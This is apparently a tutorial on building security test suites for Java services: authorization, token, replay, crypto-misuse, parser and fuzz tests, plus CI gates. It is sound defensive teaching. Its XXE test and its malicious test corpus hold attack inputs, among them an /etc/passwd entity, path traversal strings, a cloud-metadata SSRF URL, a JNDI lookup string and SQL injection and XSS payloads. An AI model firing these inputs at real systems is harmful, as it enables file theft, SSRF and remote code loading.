




------
title: Learn Java Security, Cryptography and Integrity - Part 030
description: Security testing untuk sistem Java: SAST, DAST, IAST, fuzzing, property-based abuse tests, crypto misuse tests, authz regression tests, dan CI security gates.
series: learn-java-security-cryptography-integrity
seriesTitle: Learn Java Security, Cryptography and Integrity
order: 30
partTitle: Security Testing: SAST, DAST, IAST, Fuzzing & Misuse Tests
tags:
  - java
  - security
  - security-testing
  - sast
  - dast
  - fuzzing
  - ci-cd
  - secure-engineering
date: 2026-06-30
---

# Part 030 — Security Testing: SAST, DAST, IAST, Fuzzing & Misuse Tests

> Target part ini: kamu mampu membangun security testing strategy untuk sistem Java yang tidak hanya “menjalankan scanner”, tetapi benar-benar menguji **security properties**, misuse cases, boundary behavior, authorization invariants, crypto correctness, parser resilience, dan release gates.

Security testing yang matang bukan soal punya banyak tool. Tool penting, tetapi tool hanya bagian dari sistem. Tujuan kita adalah membuat bug keamanan:

1. lebih cepat ditemukan,
2. lebih murah diperbaiki,
3. tidak mudah regresi,
4. bisa dibuktikan tertutup,
5. menjadi bagian normal dari engineering workflow.

OWASP Web Security Testing Guide menekankan perlunya balanced approach yang mencakup testing techniques, manual inspection/review, threat modeling, source code review, dan penetration testing. NIST SSDF juga menempatkan verification dan vulnerability response sebagai bagian dari secure software development practice.

---

## 1. Kaufman Deconstruction

Kita pecah security testing menjadi sub-skill yang bisa dilatih:

```mermaid
graph TD
  A[Security Testing] --> B[Property Thinking]
  A --> C[Negative Testing]
  A --> D[SAST]
  A --> E[DAST]
  A --> F[IAST/RASP-like Runtime Insight]
  A --> G[Fuzzing]
  A --> H[Misuse Regression Tests]
  A --> I[CI Gates & Triage]

  B --> B1[Invariant Definition]
  B --> B2[Threat-to-Test Mapping]
  B --> B3[Abuse Case Coverage]

  C --> C1[Unauthorized]
  C --> C2[Malformed]
  C --> C3[Replay]
  C --> C4[Boundary Violations]

  D --> D1[Source Rules]
  D --> D2[Dataflow]
  D --> D3[Misuse Patterns]

  E --> E1[Running App]
  E --> E2[HTTP Boundary]
  E --> E3[Auth Session Simulation]

  G --> G1[Parser Fuzzing]
  G --> G2[Property Assertions]
  G --> G3[Crash Corpus]

  I --> I1[Severity Policy]
  I --> I2[False Positive Handling]
  I --> I3[Release Decision]
```



### Minimum effective learning target

After this part, you should be able to:

- turn a threat model into executable tests;
- explain where SAST, DAST, IAST, fuzzing, and manual review fit;
- write misuse tests for authz, replay, request signing, crypto, parser, and logging boundaries;
- build CI gates that reduce risk without blocking engineering with noise;
- evaluate scanner results using reachability, exploitability, and business impact.

---

## 2. Mental Model: Test Security Properties, Not Just Code Paths

Functional testing asks:

```text
Does the system do what the user wants?
```

Security testing asks:

```text
Does the system refuse what the attacker wants?
```

This difference matters. A happy-path test can prove login works. It does not prove:

- bad password fails safely;
- disabled account cannot login;
- old session is invalidated after password reset;
- MFA bypass is impossible;
- authorization is checked per object;
- replayed webhook is rejected;
- invalid signature is rejected before business processing;
- parser rejects malicious payload;
- token audience/issuer is verified;
- logs do not leak sensitive data.

### Security test structure

A good security test usually states:

```text
Given asset A and trust boundary B,
when actor X attempts action Y under condition Z,
then invariant I must hold,
and evidence E must be produced or absent.
```

Example:

```text
Given case CASE-123 belongs to tenant T1,
when actor from tenant T2 requests GET /cases/CASE-123,
then access is denied,
and no case data is returned,
and a structured authorization.denied security event is emitted.
```

---

## 3. Security Testing Pyramid



### Important principle

Do not outsource all security testing to late-stage DAST or penetration testing. The cheapest security test is usually a small regression test near the code that enforces the invariant.

---

## 4. Tool Categories and What They Actually See

| Technique | Sees | Finds Well | Misses Often | Best Used |
|---|---|---|---|---|
| SAST | source/bytecode/config | insecure APIs, dataflow, injection patterns, crypto misuse | runtime auth context, business logic, environment config | every PR / CI |
| SCA | dependency graph/SBOM | known vulnerable dependencies, license/policy risk | vulnerable but unreachable code, custom bugs | every PR / scheduled |
| DAST | running app over HTTP | web/API boundary issues, headers, basic injection, auth/session issues | deep business logic, internal paths, unreachable states | nightly/release |
| IAST | running app with instrumentation | runtime dataflow, exercised vulnerabilities | paths not executed, complex auth flows | test/staging with good coverage |
| Fuzzing | target parser/function/API | crashes, parser bugs, unexpected states, DoS | high-level business logic unless properties defined | parsers, codecs, boundary components |
| Manual Review | design/source/context | business logic flaws, trust boundary issues, authorization mistakes | scale, repeatability | high-risk changes |
| Pen Test | system from attacker perspective | exploit chains, real-world bypasses | complete coverage, regressions | periodic validation |

---

## 5. Threat-to-Test Mapping

Security tests should start from threats and invariants.



Example:

| Threat | Requirement | Invariant | Test |
|---|---|---|---|
| Cross-tenant case read | Tenant isolation | Actor from T2 cannot read object from T1 | integration authz test |
| Webhook replay | Freshness | Same signed event cannot be processed twice | replay test |
| JWT confusion | Token validation | Token must match issuer/audience/alg/key type | token negative tests |
| AES-GCM nonce reuse | Crypto safety | IV unique per key | unit/property test around encryptor |
| Log leakage | Data minimization | Password/token absent from logs | log capture test |
| SSRF | Network boundary | URL fetcher rejects internal IPs after DNS resolution | SSRF integration test |
| XML entity expansion | Parser safety | external entity disabled and payload bounded | parser security test |

---

## 6. Authorization Regression Tests

Authorization is often the most important custom security logic in enterprise Java systems.

### Matrix thinking

For each protected object, test:

- owner vs non-owner;
- same tenant vs different tenant;
- normal user vs admin;
- active vs suspended account;
- object state allowed vs blocked;
- direct object access vs search/list/export;
- read vs write vs approve vs delete;
- UI route vs API route;
- cached authorization vs fresh policy.



### Java integration example

```java
@Test
void userFromDifferentTenantCannotReadCaseByDirectId() throws Exception {
    var t1 = tenants.create("tenant-a");
    var t2 = tenants.create("tenant-b");
    var caseId = cases.createCase(t1, "sensitive-enforcement-case");
    var actorFromT2 = users.createUser(t2, "case-reader");

    mockMvc.perform(get("/cases/{id}", caseId)
            .with(jwtFor(actorFromT2).scope("case.read")))
        .andExpect(status().isForbidden())
        .andExpect(jsonPath("$.caseNumber").doesNotExist())
        .andExpect(jsonPath("$.details").doesNotExist());

    assertThat(securityEvents)
        .containsEvent("authorization.denied", event ->
            event.action().equals("case.read") &&
            event.objectRef().equals(caseId.toString()) &&
            event.reasonCode().equals("tenant_mismatch"));
}
```

### Anti-pattern

Only testing missing role:

```java
@Test
void requiresCaseReadRole() { ... }
```

This is not enough. Broken Object Level Authorization often happens when the user has the right role but targets the wrong object.

---

## 7. Authentication and Session Misuse Tests

Test cases:

| Scenario | Expected |
|---|---|
| wrong password | deny; generic error; failure event; no password in log |
| disabled account | deny; no session; risk event |
| password reset completed | old sessions invalidated if policy requires |
| MFA required but missing | deny; no partial privileged session |
| reused recovery token | deny; replay event |
| refresh token rotation replay | revoke token family or risk response |
| logout | session invalidated server-side where applicable |
| cookie missing SameSite/Secure/HttpOnly | test fails |

Example cookie assertion:

```java
@Test
void sessionCookieHasSecureFlags() throws Exception {
    MvcResult result = mockMvc.perform(post("/login")
            .contentType(MediaType.APPLICATION_JSON)
            .content(validLoginJson()))
        .andExpect(status().isOk())
        .andReturn();

    String setCookie = result.getResponse().getHeader("Set-Cookie");
    assertThat(setCookie).contains("HttpOnly");
    assertThat(setCookie).contains("Secure");
    assertThat(setCookie).contains("SameSite=");
}
```

---

## 8. Token Validation Negative Tests

For JWT/OIDC resource servers, test invalid tokens explicitly.

| Negative Token | Expected |
|---|---|
| `alg=none` | reject |
| wrong issuer | reject |
| wrong audience | reject |
| expired token | reject |
| not-before in future | reject |
| unknown `kid` | reject safely |
| mismatched key type | reject |
| token signed by different tenant IdP | reject |
| missing required scope | authenticated but forbidden |
| malformed token | reject without stacktrace leak |

Example:

```java
@ParameterizedTest
@MethodSource("invalidTokens")
void invalidJwtIsRejected(String token) throws Exception {
    mockMvc.perform(get("/cases")
            .header("Authorization", "Bearer " + token))
        .andExpect(status().isUnauthorized());
}
```

The important part is not just status code. Also verify no business logic executed and logs do not include the raw token.

---

## 9. Request Signing and Replay Tests

From Part 022, request signing requires canonicalization, timestamp, nonce/idempotency, and key identification.

### Test matrix

| Mutation | Expected |
|---|---|
| same body, valid signature | accept once |
| same request replayed | reject replay |
| body changed by one byte | reject signature |
| header case/order changed but canonical equivalent | accept if canonicalization says equivalent |
| missing signed header | reject |
| timestamp outside window | reject |
| unknown key id | reject |
| disabled key id | reject |
| duplicate nonce | reject |

Example:

```java
@Test
void replayedWebhookIsRejected() throws Exception {
    var webhook = signedWebhook("evt-001", "{\"status\":\"paid\"}");

    mockMvc.perform(webhook.toRequest()).andExpect(status().isAccepted());
    mockMvc.perform(webhook.toRequest()).andExpect(status().isConflict());

    assertThat(processedEvents.count("evt-001")).isEqualTo(1);
    assertThat(securityEvents).containsEvent("webhook.replay_detected");
}
```

---

## 10. Crypto Misuse Tests

Crypto tests are not mainly “encrypt then decrypt works”. That is only a functional smoke test.

### What to test

| Component | Required Security Test |
|---|---|
| AEAD encryptor | tampered ciphertext rejected |
| AEAD encryptor | tampered AAD rejected |
| AEAD encryptor | IV uniqueness under same key |
| password hashing | unique salt per password |
| MAC verifier | modified body rejected |
| signature verifier | wrong key rejected |
| key rotation | old ciphertext decrypts while new encrypt uses active key |
| KMS envelope | plaintext DEK not logged or persisted |
| random token | enough length and no predictable source |

### AEAD tamper test

```java
@Test
void aesGcmRejectsTamperedCiphertext() {
    byte[] plaintext = "case decision approved".getBytes(StandardCharsets.UTF_8);
    byte[] aad = "case:123".getBytes(StandardCharsets.UTF_8);

    EncryptedBlob blob = encryptor.encrypt(plaintext, aad);
    byte[] tampered = blob.ciphertext().clone();
    tampered[tampered.length - 1] ^= 0x01;

    assertThatThrownBy(() -> encryptor.decrypt(blob.withCiphertext(tampered), aad))
        .isInstanceOf(SecurityException.class);
}
```

### IV uniqueness property

```java
@Test
void encryptionUsesDifferentNonceForEachMessage() {
    Set<String> ivs = new HashSet<>();

    for (int i = 0; i < 10_000; i++) {
        EncryptedBlob blob = encryptor.encrypt(("msg-" + i).getBytes(UTF_8), new byte[0]);
        assertThat(ivs.add(Base64.getEncoder().encodeToString(blob.iv())))
            .as("duplicate IV at iteration " + i)
            .isTrue();
    }
}
```

This does not mathematically prove uniqueness forever, but it catches catastrophic deterministic/reused IV bugs.

---

## 11. Parser and Deserialization Tests

Parser boundaries are high-value fuzzing targets.

### XML parser security tests

Test payloads:

- external entity;
- billion laughs/entity expansion;
- huge document;
- deeply nested elements;
- unexpected namespace;
- duplicate IDs if signature verification uses IDs;
- signature wrapping variants.

Example:

```java
@Test
void xmlParserRejectsExternalEntity() {
    String payload = """
        <?xml version="1.0"?>
        <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <data>&xxe;</data>
        """;

    assertThatThrownBy(() -> secureXmlParser.parse(payload))
        .isInstanceOf(SecurityException.class);
}
```

### Java deserialization rule

For untrusted input, the best test is often that Java native deserialization is not reachable at all. If legacy constraints require it, test `ObjectInputFilter`, allowlist, size/depth/reference limits, and rejection behavior.

```java
@Test
void objectInputFilterRejectsUnexpectedClass() {
    byte[] serialized = serialize(new UnexpectedGadgetLikeType());

    assertThatThrownBy(() -> legacyDecoder.decode(serialized))
        .isInstanceOf(InvalidClassException.class);
}
```

---

## 12. Fuzzing for Java

Fuzzing feeds many generated inputs to a target and watches for crashes, hangs, assertion failures, or security property violations. OWASP describes fuzzing as a technique for identifying bugs, vulnerabilities, or unexpected behavior by automatically providing unexpected, malformed, or semi-malformed inputs.

Good Java fuzzing targets:

- canonical request parser;
- URL/SSRF allowlist parser;
- JSON/XML canonicalizer;
- webhook verifier;
- JWT parser wrapper;
- file metadata parser;
- custom binary protocol parser;
- authorization expression parser;
- template/rule parser;
- import/export parser.

### Fuzz target shape

A fuzz target should be small and deterministic:

```java
public final class UrlPolicyFuzzTest {
    public static void fuzzerTestOneInput(String input) {
        try {
            UrlDecision decision = UrlPolicy.evaluate(input);

            if (decision.allowed()) {
                URI uri = URI.create(input);
                if (isPrivateOrLoopback(uri)) {
                    throw new AssertionError("private address allowed: " + input);
                }
            }
        } catch (IllegalArgumentException | SecurityException expected) {
            // Rejection is acceptable.
        }
    }
}
```

### Fuzzing rule

Do not fuzz the whole application first. Fuzz the smallest boundary component that makes a security decision.

---

## 13. Property-Based Abuse Testing

Property-based testing generates many cases and checks invariants.

Example invariant:

```text
No actor can read an object from another tenant, regardless of object ID shape.
```

Pseudo-example with jqwik-style notation:

```java
@Property
void crossTenantReadIsAlwaysDenied(
    @ForAll("tenantRefs") String tenantA,
    @ForAll("tenantRefs") String tenantB,
    @ForAll("caseIds") String caseId
) {
    Assume.that(!tenantA.equals(tenantB));

    cases.insert(caseId, tenantA);
    Actor actor = actorInTenant(tenantB, Set.of("case.read"));

    assertThatThrownBy(() -> caseService.read(actor, caseId))
        .isInstanceOf(AccessDeniedException.class);
}
```

Property tests are useful for:

- authorization matrices;
- canonicalization equivalence;
- replay/idempotency behavior;
- parser boundaries;
- state-machine constraints;
- workflow escalation rules.

---

## 14. SAST in Java

SAST scans source or bytecode/config without running the application.

### Useful finding categories

- unsafe deserialization;
- SQL/LDAP/command injection patterns;
- path traversal;
- hardcoded secrets;
- weak cryptography;
- bad random source;
- missing TLS verification;
- XML external entity risk;
- insecure temporary file usage;
- logging sensitive data;
- Spring security misconfiguration;
- unsafe reflection/expression evaluation.

### Common tools/categories

- Semgrep custom rules;
- CodeQL queries;
- SpotBugs + FindSecBugs;
- Checkstyle/ArchUnit custom guardrails;
- IDE inspections;
- secret scanners.

This part does not repeat dependency scanning from Part 026, but SAST and SCA should be wired together in CI.

### Custom Semgrep-like rule idea

Policy: no direct `Cipher.getInstance("AES")`.

Bad:

```java
Cipher cipher = Cipher.getInstance("AES");
```

Better:

```java
Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
```

But the stronger approach is to ban direct crypto construction outside approved crypto wrapper packages.

### Architecture guard with ArchUnit

```java
@AnalyzeClasses(packages = "com.example")
class SecurityArchitectureTest {

    @ArchTest
    static final ArchRule cryptoOnlyInSecurityPackage = noClasses()
        .that().resideOutsideOfPackage("..security.crypto..")
        .should().accessClassesThat().resideInAnyPackage("javax.crypto..", "java.security..")
        .because("application code should use reviewed crypto boundary abstractions");
}
```

This is often more effective than hoping every developer remembers crypto pitfalls.

---

## 15. DAST and API Security Testing

DAST tests a running application externally.

### What DAST is good at

- missing security headers;
- reflected/stored XSS candidates;
- basic injection;
- exposed admin paths;
- cookie flags;
- CORS misconfiguration;
- TLS/header hygiene;
- authentication/session behavior;
- API discovery drift.

### What DAST often misses

- business authorization;
- tenant isolation;
- workflow state constraints;
- event integrity;
- hidden internal APIs;
- complex asynchronous processing;
- crypto misuse behind API;
- data leakage visible only to specific roles.

### DAST must be authenticated

Unauthenticated scanning is useful but shallow. For enterprise APIs, run scans with controlled test accounts:

- anonymous;
- normal user tenant A;
- normal user tenant B;
- admin tenant A;
- suspended/disabled user;
- service account with limited scope.

### API DAST preconditions

- deterministic test environment;
- seeded test data;
- safe test credentials;
- rate limits configured for scanner;
- destructive actions isolated;
- scanner cannot hit production data;
- findings mapped to route templates and build SHA.

---

## 16. IAST: Runtime-Aware Testing

IAST instruments the application while tests run. It can observe runtime dataflow and exercised paths.

### Good use cases

- detecting injection in paths hit by integration tests;
- identifying unsafe library calls at runtime;
- correlating HTTP request to code path;
- reducing SAST false positives with runtime evidence.

### Limitations

IAST only sees what tests execute. Poor functional/integration coverage means poor IAST coverage.

### Practical model

Use IAST in staging or dedicated test environment with realistic integration tests. Do not treat it as replacement for threat modeling or code review.

---

## 17. Misuse Test Catalog

Use this catalog as starting point.

### Identity and access

- [ ] token with wrong issuer rejected;
- [ ] token with wrong audience rejected;
- [ ] expired token rejected;
- [ ] missing scope forbidden;
- [ ] same role but different tenant forbidden;
- [ ] object state prevents forbidden transition;
- [ ] admin action requires admin authority and audit/security event;
- [ ] disabled user cannot use existing session if policy requires.

### Crypto and integrity

- [ ] tampered ciphertext rejected;
- [ ] tampered AAD rejected;
- [ ] wrong key rejected;
- [ ] duplicate nonce not generated in test run;
- [ ] invalid signature rejected;
- [ ] replayed signed request rejected;
- [ ] key rotation preserves decrypt for old data;
- [ ] retired key no longer encrypts new data.

### Parser and boundary

- [ ] XXE payload rejected;
- [ ] huge payload rejected;
- [ ] deep nesting rejected;
- [ ] path traversal rejected after normalization;
- [ ] SSRF to loopback/private/metadata rejected;
- [ ] duplicate JSON keys handled safely;
- [ ] content type mismatch rejected;
- [ ] dangerous file extension rejected.

### Observability

- [ ] password/token absent from logs;
- [ ] authorization denied event emitted;
- [ ] log injection payload cannot forge event;
- [ ] metric labels do not include user/object raw IDs;
- [ ] trace attributes do not include request body/headers.

---

## 18. Security Test Data Management

Security tests need intentionally malicious data.

### Test corpus examples

```text
../etc/passwd
..%2f..%2fetc%2fpasswd
http://127.0.0.1/admin
http://169.254.169.254/latest/meta-data/
${jndi:ldap://example.invalid/a}
<script>alert(1)</script>
' OR '1'='1
alice@example.com\n{"event_type":"admin.role_granted"}
```

### Rules

- Store malicious corpus in test resources.
- Label it clearly as test data.
- Ensure scanners/secret detectors do not mistake fake secrets for real secrets, or mark them with approved test prefixes.
- Never use real user data in security tests.
- Version regression payloads from fixed vulnerabilities.

---

## 19. CI/CD Security Gates

A security gate should reduce risk without becoming theater.



### Good gates

- deterministic;
- fast enough for PR if PR gate;
- severity policy clear;
- allow baseline for legacy issues but block new critical issues;
- exception workflow audited;
- owner assigned;
- findings deduplicated;
- regression tests required for fixed high-risk bugs.

### Bad gates

- fail randomly;
- produce thousands of untriaged findings;
- block on old accepted risks with no path to remediation;
- depend on external service instability;
- do not distinguish test code from production code;
- treat every scanner finding as equal.

---

## 20. Triage: From Finding to Decision

A scanner finding is not automatically a vulnerability, and a false positive is not automatically harmless.

### Triage dimensions

| Dimension | Question |
|---|---|
| Reachability | Can attacker-controlled input reach it? |
| Exploitability | Can it be exploited under real constraints? |
| Impact | What asset is affected? |
| Existing controls | Is there compensating validation/authz/sandbox? |
| Environment | Is it production, admin-only, internal, test-only? |
| Blast radius | Single tenant, all tenants, infrastructure, supply chain? |
| Detectability | Would we know if it happened? |
| Fix risk | Could fix break critical behavior? |
| Regression test | Can we encode the issue permanently? |

### Triage outcome types

- fix immediately;
- fix before release;
- accept temporarily with owner/date/control;
- false positive with evidence;
- needs design review;
- needs pen-test validation;
- convert to backlog hardening.

---

## 21. Security Regression Rule

Every serious vulnerability fix should add one of:

- unit misuse test;
- integration security test;
- fuzz corpus entry;
- SAST custom rule;
- DAST assertion;
- architecture rule;
- CI policy check;
- documentation/design invariant.

A fix without regression evidence is fragile.

---

## 22. Example: Building a Security Test Suite for Case Management

### Assets

- enforcement case;
- evidence file;
- decision record;
- audit event;
- user/session;
- service integration webhook;
- signing key.

### Threats

- cross-tenant access;
- unauthorized decision approval;
- replayed webhook updates payment/evidence state;
- tampered evidence file accepted;
- audit log missing for privileged action;
- malicious file upload;
- SSRF through evidence import URL;
- token with wrong audience accepted.

### Tests

| Threat | Test Type |
|---|---|
| cross-tenant read | integration authz matrix |
| unauthorized approval | state-machine misuse test |
| webhook replay | request signing replay test |
| tampered evidence | content hash/signature test |
| missing privileged audit | event assertion test |
| malicious upload | file upload corpus test |
| SSRF import URL | boundary unit + integration test |
| wrong token audience | JWT negative test |

---

## 23. Example CI Policy

```yaml
security:
  pull_request:
    block_on:
      - new_critical_sast
      - new_high_secret_leak
      - failed_authz_regression
      - failed_crypto_misuse_test
      - failed_log_leak_test
    warn_on:
      - medium_sast
      - low_security_header
  nightly:
    run:
      - authenticated_dast
      - parser_fuzzing_30m
      - iast_integration_suite
      - dependency_policy_scan
  release:
    require:
      - no_open_critical
      - high_findings_triaged
      - security_exception_expiry_checked
      - penetration_test_for_high_risk_release
```

This is conceptual, not tied to one vendor.

---

## 24. Common Anti-Patterns

### Anti-pattern 1 — “We have SAST, therefore secure”

SAST does not understand all business logic. It will not reliably prove tenant isolation or workflow authorization.

### Anti-pattern 2 — Scanner-only security testing

A scanner cannot know your domain invariants unless you encode them.

### Anti-pattern 3 — Only testing unauthorized anonymous users

Many real authorization failures happen with authenticated users who have some permissions but target the wrong object or state.

### Anti-pattern 4 — Testing only encrypt/decrypt happy path

Crypto happy-path tests miss tamper rejection, AAD binding, nonce uniqueness, key rotation, and algorithm metadata.

### Anti-pattern 5 — Running DAST only unauthenticated

This misses authenticated attack surface.

### Anti-pattern 6 — No regression test after vulnerability fix

The same bug class often returns later in a new endpoint.

### Anti-pattern 7 — Treating false positives as purely tool problem

False positives may indicate missing architecture boundaries, unclear ownership, or poor scanner configuration.

---

## 25. Design Review Checklist

### Strategy

- [ ] Are security properties explicitly listed?
- [ ] Are tests mapped to threat model entries?
- [ ] Are authz tests object-level and tenant-aware?
- [ ] Are parser boundaries tested with malicious corpus?
- [ ] Are crypto wrappers tested for misuse, not only happy path?
- [ ] Are replay/freshness tests present where signatures/tokens/webhooks exist?

### Tooling

- [ ] SAST is configured for Java/framework stack.
- [ ] Secret scanning covers source, config, build logs, and test fixtures.
- [ ] DAST uses authenticated roles where safe.
- [ ] Fuzzing targets small boundary components.
- [ ] CI gates distinguish new findings from legacy baseline.
- [ ] Findings have owner, severity, and remediation evidence.

### Quality

- [ ] Tests are deterministic.
- [ ] Test data is synthetic.
- [ ] Malicious corpus is versioned.
- [ ] Security tests run at appropriate cadence.
- [ ] High-risk fixes add regression evidence.
- [ ] Exceptions are time-bound and auditable.

---

## 26. Lab: Security Testing Workbench

### Scenario

You maintain a Java service `case-api` with:

- OAuth2/OIDC resource server;
- case CRUD;
- evidence upload;
- webhook receiver;
- XML import;
- admin role management;
- encrypted sensitive fields;
- structured security events.

### Task A — Threat-to-test table

Create table with 20 threats and map each to:

- unit test;
- integration test;
- SAST rule;
- DAST check;
- fuzz target;
- manual review.

### Task B — Write 8 negative tests

At minimum:

1. wrong JWT audience;
2. cross-tenant object read;
3. missing scope;
4. replayed webhook;
5. tampered encrypted blob;
6. XXE payload;
7. SSRF private IP;
8. password/token absent from logs.

### Task C — Build fuzz target

Pick one:

- URL allowlist parser;
- canonical request parser;
- XML import pre-parser;
- JSON canonicalizer;
- file extension/content-type classifier.

Define assertion properties.

### Task D — CI gate design

Define:

- PR checks;
- nightly checks;
- release checks;
- severity policy;
- exception workflow;
- evidence artifacts.

---

## 27. Production Readiness Rubric

| Level | Description |
|---|---|
| L1 | Basic unit tests and occasional scanner runs. |
| L2 | SAST/SCA in CI, some auth tests, manual DAST before release. |
| L3 | Threat-to-test mapping, authz matrix, crypto misuse tests, parser corpus, authenticated DAST. |
| L4 | Security regression policy, fuzzing for risky parsers, CI gates with triage workflow, evidence artifacts. |
| L5 | Continuous security testing program with custom rules, production-like test environments, measurable coverage of security properties, and mature exception governance. |

Aim for L4 for high-risk Java enterprise systems. L5 is justified for regulated, critical, multi-tenant, or safety-sensitive platforms.

---

## 28. What to Remember

Security testing is not a tool category. It is the practice of making security assumptions executable.

The best teams encode their security model into:

- tests,
- scanners,
- fuzz targets,
- architecture rules,
- release gates,
- and review checklists.

A scanner finding may start a conversation. A security invariant ends ambiguity.

---

## References

- OWASP Web Security Testing Guide — https://owasp.org/www-project-web-security-testing-guide/
- OWASP Web Security Testing Guide Latest — https://owasp.org/www-project-web-security-testing-guide/latest/
- OWASP Fuzzing — https://owasp.org/www-community/Fuzzing
- OWASP Application Security Verification Standard — https://owasp.org/www-project-application-security-verification-standard/
- NIST SP 800-218 Secure Software Development Framework — https://csrc.nist.gov/pubs/sp/800/218/final
- OWASP Top 10 2025 — https://owasp.org/www-project-top-ten/
- OWASP Cheat Sheet Series — https://cheatsheetseries.owasp.org/
- CodeQL Documentation — https://codeql.github.com/docs/
- Semgrep Documentation — https://semgrep.dev/docs/
- Jazzer JVM Fuzzer — https://github.com/CodeIntelligenceTesting/jazzer
- jqwik Property-Based Testing — https://jqwik.net/
